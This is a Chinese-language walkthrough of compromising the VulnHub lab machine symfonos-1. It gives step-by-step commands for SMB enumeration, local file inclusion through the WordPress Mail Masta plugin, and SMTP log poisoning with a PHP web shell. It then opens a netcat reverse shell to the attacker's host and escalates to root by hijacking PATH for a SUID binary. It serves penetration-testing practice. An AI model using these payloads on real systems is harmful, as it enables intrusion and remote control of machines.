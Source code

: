 # symfonos-1

## 环境

虚拟机平台：VMware Workstation Pro

攻击机：Kali（IP：192.168.253.136）

靶机：symfonos-1（IP：192.168.253.143）

下载：https://www.vulnhub.com/entry/symfonos-1,322/

## Let's go

```
nmap -A 192.168.253.143
```

![](./img/symfonos1-01.png)

```
enum4linux -a 192.168.253.143
```

![](./img/symfonos1-02.png)

![](./img/symfonos1-03.png)

> **扫描发现可以匿名登录，并得到 'helios'**

```
smbclient //192.168.253.143/anonymous
```

![](./img/symfonos1-04.png)

```
cat attention.txt
```

![](./img/symfonos1-05.png)

> **查看获取到三个密码  'epidioko'  'qwerty'  'baseball'**

```
#发现helios共享可以使用密码'qwerty'登录
smbclient //192.168.253.143/helios -U=helios
```

![](./img/symfonos1-06.png)

```
cat todo.txt
```

![](./img/symfonos1-07.png)

```
#发现是WordPress网站
http://192.168.253.143/h3l105/
```

![](./img/symfonos1-08.png)

> **部分请求失败，添加hosts**

![](./img/symfonos1-09.png)

![](./img/symfonos1-10.png)

```
wpscan --url http://symfonos.local/h3l105/
```

![](./img/symfonos1-11.png)

```
https://www.exploit-db.com/exploits/40290
```

![](./img/symfonos1-12.png)

```
http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```

![](./img/symfonos1-13.png)

> **将一句话<?php system($_GET['cmd']); ?>写入SMTP日志，**

```
telnet 192.168.253.143 25
mail from:hello
rcpt to:helios
data
<?php system($_GET['cmd']); ?>
.
```

![](./img/symfonos1-14.png)

```
http://symfonos.local/h3l105/wp-content/plugins/mailmasta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=nc 192.168.253.136 4444 -e /bin/bash
nc -lp 4444
python -c 'import pty; pty.spawn("/bin/bash")'
```

![](./img/symfonos1-15.png)

```
find / -perm -u=s -type f 2>/dev/null
```

![](./img/symfonos1-16.png)

```
strings /opt/statuscheck
```

![](./img/symfonos1-17.png)

> **这里使用环境变量提权**

```
cd /tmp
echo "/bin/sh" > curl
chmod 777 curl
export PATH=/tmp:$PATH
```

![](./img/symfonos1-18.png)

```
/opt/statuscheck
cd /root
cat proof.txt
```

![](./img/symfonos1-19.png)